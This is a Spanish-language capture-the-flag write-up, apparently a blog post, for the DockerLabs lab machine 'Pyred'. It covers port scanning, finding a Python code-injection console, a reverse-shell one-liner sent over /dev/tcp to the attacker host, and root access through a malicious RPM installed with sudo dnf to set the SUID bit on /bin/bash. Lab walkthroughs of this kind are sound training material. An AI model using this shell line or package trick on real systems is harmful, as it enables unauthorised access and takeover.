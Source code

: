 ```yaml
---
title: Pyred - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Medio      | ElPinguinoDeMario | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. Descubrimos que el puerto 5000 estaba activo, lo que generalmente se asocia con aplicaciones web.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/d67f083f-702d-4ee6-a76d-ad35103f5f21)

## Exploración Web

Procedimos a explorar la interfaz web accesible a través del puerto 5000.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/e446db71-4436-4298-ac2b-8cb93dff02d2)


La página parecía permitir la inyección de código Python, aunque inicialmente no encontramos nada destacable. Sin embargo, utilizando la herramienta Gobuster, identificamos un directorio interesante llamado `/console`.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/b94bd9f3-7350-4379-b3c1-01d5ec68cb55)

## Obtención de Acceso

Decidimos explotar la posibilidad de inyectar código Python para obtener una reverse shell. Ejecutamos el siguiente código desde la consola disponible en la web:

```python
import os
os.system("bin/bash -i >& /dev/tcp/172.17.0.1/443 0>&1")
```

Con éxito, obtuvimos una reverse shell en el sistema.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/bb3f57ee-ab90-45d5-b55f-563c74096373)

Una vez dentro, ejecutamos sudo -l para ver los permisos del usuario actual.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/0f75a112-10c6-45cb-a4b1-699255222449)

Observamos que el usuario tenía permisos para ejecutar dnf como superusuario sin contraseña.

## Escalada de Privilegios

Para explotar este privilegio, procedimos a crear un paquete RPM malicioso en nuestra máquina atacante que modificaría los permisos de /bin/bash para establecer el bit SUID.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/9c28b3d8-ad89-4539-bf1a-1ad8dd8e769c)

Después de crear el archivo paq.rpm, configuramos un servidor HTTP simple con Python para compartir el archivo y lo descargamos en el sistema objetivo usando curl.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/d9fa7265-fb4f-4259-858e-2cef729a18ec)


Instalamos el paquete malicioso en el sistema objetivo con el siguiente comando:

bash

sudo -u root /usr/bin/dnf install -y paq.rpm

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/69339e55-9618-4014-a46a-cc8c960f2370)

Tras la instalación, verificamos si el bit SUID había sido correctamente configurado en /bin/bash.

![imagen](https://github.com/romabri/romabri.github.io/assets/51706860/f1d0f566-d7f6-49ec-bb6c-886c4118d8e7)

Con éxito, logramos escalar privilegios a root.

Ya somos root.
